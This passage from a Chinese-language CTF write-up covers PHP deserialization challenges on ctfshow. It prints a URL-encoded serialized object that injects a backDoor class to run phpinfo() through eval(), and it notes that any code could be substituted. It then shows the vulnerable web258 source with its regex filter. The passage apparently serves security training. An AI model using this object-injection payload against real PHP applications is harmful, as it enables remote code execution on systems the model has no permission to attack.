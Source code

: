 得到序列化后的字符串。

```txt
O%3A11%3A%22ctfShowUser%22%3A4%3A%7Bs%3A21%3A%22%00ctfShowUser%00username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A21%3A%22%00ctfShowUser%00password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A18%3A%22%00ctfShowUser%00isVip%22%3Bb%3A0%3Bs%3A18%3A%22%00ctfShowUser%00class%22%3BO%3A8%3A%22backDoor%22%3A1%3A%7Bs%3A14%3A%22%00backDoor%00code%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D%7D 
```

![image-20210201100025731](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210201100025731.png)

成功执行 `phpinfo()` ;

那么把这里的代码换成任意代码都可执行。

![image-20210201100536474](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210201100536474.png)

## web258~绕过/[oc]:\d+:/i

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;
    public $class = 'info';

    public function __construct(){
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    public $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    public $code;
    public function getInfo(){
        eval($this->code);
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    if(!preg_match('/[oc]:\d+:/i', $_COOKIE['user'])){
        $user = unserialize($_COOKIE['user']);
    }
    $user->login($username,$password);
```